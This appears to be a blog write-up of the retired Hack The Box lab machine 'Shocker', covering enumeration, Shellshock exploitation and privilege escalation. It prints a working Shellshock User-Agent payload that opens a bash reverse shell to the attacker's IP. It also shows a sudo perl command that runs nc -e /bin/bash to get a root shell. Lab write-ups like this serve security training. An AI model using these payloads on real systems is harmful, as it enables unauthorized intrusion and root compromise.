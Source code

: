 ```yaml
---
layout: post
title: Hack the Box - Shocker
date: 2020-06-03 12:26:22 +0100
description: Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
img: shocker.png
fig-caption: Shocker
categories: HackTheBox
tags: [Easy, Linux, Retired, CVE]
---
```

## Overview
Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/shocker]
└─$ sudo nmap -p- -T4 10.129.113.222          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-15 15:46 GMT
Nmap scan report for 10.129.113.222
Host is up (0.017s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 12.10 seconds
```
When accessing the site only an image of a bug is displayed, through some guesswork with the name the shellshock exploit seems like a good candidate for the exploit. When enumerating the cgi-bin directory we find user.sh.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/shocker/shellshock-cgi]
└─$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.113.222/cgi-bin/FUZZ.sh                                          

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.113.222/cgi-bin/FUZZ.sh
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

user                    [Status: 200, Size: 119, Words: 19, Lines: 8]
```
## Foothold
Using burpsuites repeater we can send bash commands through the User-Agent header
```
User-Agent: () { :;}; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.27/4242 0>&1';
```
Then we should receive a shell
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/shocker/shellshock-cgi]
└─$ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.222] 42300
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```
## Privilege Escalation
Privilege escalation is relatively simple using the command below we can see that the current user can run perl commands as root
```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Using [GTFObins](https://gtfobins.github.io/gtfobins/perl/) we can find a command to run to return us a root shell, which we will need to modify however due to the limited terminal.
```
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/tmp/nc -nv 10.10.14.27 4243 -e /bin/bash"'
```
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/shocker/shellshock-cgi]
└─$ nc -nlvp 4243
listening on [any] 4243 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.222] 37880
python3 -c "import pty; pty.spawn('/bin/bash')"
root@Shocker:/usr/lib/cgi-bin#
```
